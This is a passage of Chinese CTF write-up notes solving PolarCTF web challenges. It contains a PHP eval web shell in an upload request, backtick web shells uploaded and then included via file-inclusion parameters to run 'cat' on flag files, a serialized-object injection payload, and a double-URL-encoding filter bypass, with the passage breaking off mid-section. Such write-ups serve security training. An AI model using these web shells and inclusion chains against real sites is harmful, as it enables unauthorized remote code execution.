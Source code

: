 	  <?php eval($_POST[1]);
	  
	  ------WebKitFormBoundaryoXE8wHLlno2SYrJ8
	  Content-Disposition: form-data; name="submit"
	  
	  ä¸�ä¼ 
	  ------WebKitFormBoundaryoXE8wHLlno2SYrJ8--
	  ```
- # 你的马呢？
	- 题目会include GET参数file
	- 上传名字为a.txt, 内容为``<?=`$_GET[1]`?>``的文件
	- 然后include传入的a.txt即可RCE： `http://1c95226f-a876-4f6c-8851-ae776d2f266d.www.polarctf.com:8090/index.php?file=uploads/a.txt&1=cat%20/flag.txt`
- # ezphp
	- 提示爬虫，访问`robots.txt`，看到`file/file.php`和`uploads`，前者支持include文件，后者支持上传文件
	- 上传名字为a.gif, 内容为``<?=`$_GET[1]`?>``的文件，可以看到路径为`uploads/images/a.gif`
	- 然后include这个a.gif即可RCE，flag在`/home/webuser/flag`：`http://67248b86-3773-4c32-a1f8-b57b5fc4984a.www.polarctf.com:8090/file/file.php?filename=../uploads/images/a.gif&1=cat%20/home/webuser/flag`
- # 随机值
	- 这题挺莫名其妙的，应该是想考察引用但是代码写错了
	- 构造payload：
		- ```php
		  <?php
		  // include "flag.php";
		  class Index{
		      private $Polar1;
		      private $Polar2;
		      protected $Night;
		      protected $Light;
		      function __construct() {
		          $this -> Polar1 = $this -> Polar2 = "123";
		          $this -> Night = $this -> Light = "123";
		      }
		  }
		  $index = new Index();
		  echo urlencode(serialize($index));
		  ?> 
		  ```
	- 然后直接打：
		- ```
		  http://0b42f92b-a5b3-4e77-ba78-fa83fc6273c4.www.polarctf.com:8090/?sys=O%3A5%3A%22Index%22%3A4%3A%7Bs%3A13%3A%22%00Index%00Polar1%22%3Bs%3A3%3A%22123%22%3Bs%3A13%3A%22%00Index%00Polar2%22%3Bs%3A3%3A%22123%22%3Bs%3A8%3A%22%00%2A%00Night%22%3Bs%3A3%3A%22123%22%3Bs%3A8%3A%22%00%2A%00Light%22%3Bs%3A3%3A%22123%22%3B%7D
		  ```
- # phpurl
	- 提示给了源码在`index.phps`
	- urlencode编码两次即可绕过：`http://696a36bf-992b-4bee-a977-06f55f515341.www.polarctf.com:8090/?sys=%25%37%38%25%37%38%25%37%33`
- # 你想逃也逃不掉
	- 字符逃逸
		- ```python
		  